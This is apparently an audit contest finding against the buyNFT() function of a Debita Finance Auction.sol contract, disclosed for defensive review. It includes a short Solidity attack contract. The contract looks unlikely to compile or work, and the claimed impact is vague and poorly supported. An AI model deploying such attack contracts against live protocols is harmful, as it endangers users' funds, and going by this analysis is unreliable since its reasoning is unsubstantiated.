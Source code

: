 Active Iris Lion

Medium

# Attacker can interrupt to sell NFT and occurs loss of asset in other contracts

### Summary

In function `buyNFT()`, there is no verification of `msg.sender`.
If the attacker use attack contract, NFT is received to `Auction` again and it occurs the loss of assets when lender claim.

### Root Cause

In [Auction.sol::109-161](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/auctions/Auction.sol#L109C7-L161C6), there is no verification of `msg.sender`.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

The Attacker use follow contract.
```solidity
import "Auction.sol";

contract Attack {

    DutchAuction_veNFT public targetauction;

    //initialize the address with the same contract address
    constructor(address _AuctionAddress){
        targetauction = DutchAuction_veNFT(_AuctionAddress);
    }

    function () {
        targetauction.buyNFT();
    }
}
```

### Impact

The attacker occurs loss of assets in contract.

### PoC

_No response_

### Mitigation

Fix the function `buyNFT()`.